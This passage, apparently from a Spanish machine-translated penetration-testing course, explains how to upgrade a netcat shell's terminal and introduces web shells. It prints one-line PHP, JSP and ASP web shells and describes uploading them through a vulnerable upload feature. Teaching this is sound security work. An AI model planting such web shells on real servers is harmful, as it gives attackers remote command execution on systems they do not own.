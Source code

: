 El primer comando nos mostró el`TERM`variable, y el segundo nos muestra los valores para`rows`y`columns`, respectivamente. Ahora que tenemos nuestras variables, podemos volver a nuestro`netcat`shell y use el siguiente comando para corregirlos:

  Tipos de conchas

```shell-session
www-data@remotehost$ export TERM=xterm-256color

www-data@remotehost$ stty rows 67 columns 318
```

Una vez que hacemos eso, deberíamos tener un`netcat`Shell que usa las características completas del terminal, al igual que una conexión SSH.

---

## Shell web

El tipo final de carcasa que tenemos es un`Web Shell`. A`Web Shell`es típicamente un script web, es decir,`PHP`o`ASPX`, que acepta nuestro comando a través de parámetros de solicitud HTTP, como`GET`o`POST`Solicite parámetros, ejecute nuestro comando e imprima su salida nuevamente en la página web.

#### Escribir un shell web

En primer lugar, necesitamos escribir nuestro shell web que tome nuestro comando a través de un`GET`Solicitarlo, ejecutarlo e imprimir su salida hacia atrás. Un script de shell web es típicamente una línea de una sola que es muy corta y se puede memorizar fácilmente. Los siguientes son algunos scripts comunes de shell web cortos para lenguajes web comunes:

Código:php

```php
<?php system($_REQUEST["cmd"]); ?>
```

Código:JSP

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

Código:áspid

```asp
<% eval request("cmd") %>
```

---

#### Subiendo un shell web

Una vez que tenemos nuestro shell web, necesitamos colocar nuestro script de shell web en el directorio web del host remoto (Webroot) para ejecutar el script a través del navegador web. Esto puede ser a través de una vulnerabilidad en una función de carga, lo que nos permitiría escribir uno de nuestros shells a un archivo, es decir`shell.php`y cárguelo y luego acceda a nuestro archivo cargado para ejecutar comandos.
